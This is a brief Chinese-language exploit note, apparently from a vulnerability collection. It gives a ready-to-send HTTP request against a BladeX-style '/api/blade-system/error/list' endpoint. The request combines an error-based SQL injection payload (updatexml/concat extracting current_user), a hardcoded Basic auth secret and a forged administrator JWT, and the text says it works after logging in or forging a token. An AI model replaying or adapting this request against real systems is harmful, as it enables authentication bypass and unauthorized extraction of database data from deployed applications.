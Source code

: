## 利用

登录或伪造token后发包

```
GET /api/blade-system/error/list?updatexml(1,concat(0x7e,current_user,0x7e),1)=1 HTTP/1.1
Host: {target}
Connection: keep-alive
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
blade-auth: bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIn0.JOsWrAkblh7PFJFrr_cmuOQMrzStfwvee61sSVH4o6p401oAHpP284VkL0CyKnUX1MT8KnrCAOPRYBRbmfcdTg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729; rv:11.0) like Gecko
Accept: application/json, text/plain, */*
User-Type: web_account
Tenant-Id: 000000
Accept-Encoding: gzip, deflate, br, zstd


```

<img src="./image/image-20241210092455439.png" alt="image-20241210092455439" style="zoom:50%;" />